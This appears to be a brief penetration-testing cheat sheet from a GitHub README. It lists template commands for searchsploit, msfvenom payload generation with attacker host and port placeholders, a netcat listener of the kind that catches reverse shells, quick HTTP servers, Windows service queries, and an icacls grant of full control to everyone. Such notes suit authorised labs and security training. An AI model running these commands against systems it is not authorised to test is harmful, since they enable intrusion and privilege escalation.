# info-hacking-cheat-sheet

# recon

searh for exploit
```bash
searchsploit <NAME>
```

## msfvenom

create payload
```bash
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<PORT> -f <FILE_TYPE> -o <OUTPUT>
```


## netcat

run server

```bash
nc -lvnp 6666
```

## python

run server python3

```bash
python3 -m http.server 6666
```

run server python3

```bash
python -m SimpleHTTPServer 6666
```

## linux

find by filename
```bash
find / -type f -name "<PART_OF_FILE_NAME>" 2>/dev/null
```

## windows

find service by part of name and view information

```bash
sc query | findstr /i "<PART_OF_SERVICE_NAME>"
sc qc <SERVICE_NAME>
```

check perm + update

```bash
icacls <FILE_NAME>
icacls <FILE_NAME> /grant EVERYONE:F
```

## mirror site
```bash
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent URL
```

